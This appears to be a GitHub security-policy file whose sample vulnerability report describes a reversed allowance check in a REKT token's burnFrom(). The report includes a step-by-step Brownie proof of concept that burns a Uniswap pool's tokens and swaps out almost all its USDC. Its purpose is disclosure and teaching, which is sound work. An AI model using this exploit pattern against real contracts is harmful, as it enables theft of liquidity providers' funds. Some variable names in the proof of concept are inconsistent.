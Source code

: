 # Security Policy

## Supported Versions

versions that being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 1.x.x   | :white_check_mark: |

## Reporting a Vulnerability

<p align="center"> 
  <b>SAMPLE REPORT BELOW</b>
</p>

# Impact

**CRITICAL!** Almost all USDC liquidity on the REKT/USDC uniswap pool can be stolen, due to an authorization issue with `burnFrom()` on the REKT token.

# Background

Uniswap v2 pools get the prices for their swaps by comparing the relative amounts of each of the two tokens that they hold. If the pool holds very little of token A, and a lot of token B, then it only takes a little of token A to buy a lot of token B. 

Currently REKT and USDC are fairly priced in the pool. If there were to suddenly be very little REKT in the pool, but the same amount of USDC, then very little REKT would be able to buy a lot of USDC.

# Vulnerability

The burnFrom() function in the REKT token contract has a bug in the _allowances check. The `sender` and `from` arguments are in the incorrect order. 

Here is the current `burnFrom()` code:

```javascript
function burnFrom(address from, uint256 amount) external {
  require(_allowances[msg.sender][from] >= amount);
  require(_balances[from] >= amount);
  _approve(msg.sender, from, _allowances[msg.sender][from] - amount);
  _burn(from, amount);
}
```

You will notice that the `from` mapping key is in a different place when compared with the correct check used by transferFrom().

```javascript
require(_allowances[from][spender] >= amount);
```

Because the `from` and `to` parameters are switched, anyone can be able to burn another addresses's tokens by allowing that address to spend their tokens.

This lets the attacker burn almost all REKT tokens from the uniswap pool, and then swap for almost all the USDC in pool.

# POC

_This POC is written in Brownie._

```python
usdt = Contract.from_explorer('...')
rekt = Contract.from_explorer('...')
uniswap_router = Contract.from_explorer('...')
rekt_usdc_pool = Contract.from_explorer('...')


#1. The attack will need to swap in both directions
usdt.approve(uniswap_router, 1e70)
rekt.approve(uniswap_router, 1e70)

#2. This will allow the attacker to burn the pool's tokens
rekt.approve(rekt_usdc_pool, 1e70)

#3. Attacker purchases a small amount of REKT
uniswap_router.swapExactETHForTokens(...[weth,rekt]...)

#4. Attacker burns almost all the pool's REKT
pool_balance = rekt.balanceOf(rekt_usdc_pool)
rekt.burnFrom(rekt_usdc_pool, pool_balance-1)

#5. Attacker syncs the pool, so that it uses the new amounts
rekt_usdc_pool.sync()

#6. Attacker swaps a little REKT for almost all the USDC
uniswap_router.swapExactTokensForTokens(...[rekt,usdc]...)

#7. Attacker now owns the USDC
print(usdc.balanceOf(attacker) // 1e6) # 19,670,432 USDC
```

# Recommendations

1. The current token contract is non-upgradable. It will need to be replaced with a new contract that has this bug fixed, and holders will need to be migrated to it.
2. The REKT project may want to consider having any LP holders known to the project quietly pull their liquidity, to reduce the funds at risk. After doing this, if the funds at risk are still large, the project may want to consider a careful, dark forest / MEV resistant whitehack to secure the remainder of the pool USDC for distribution back to users.

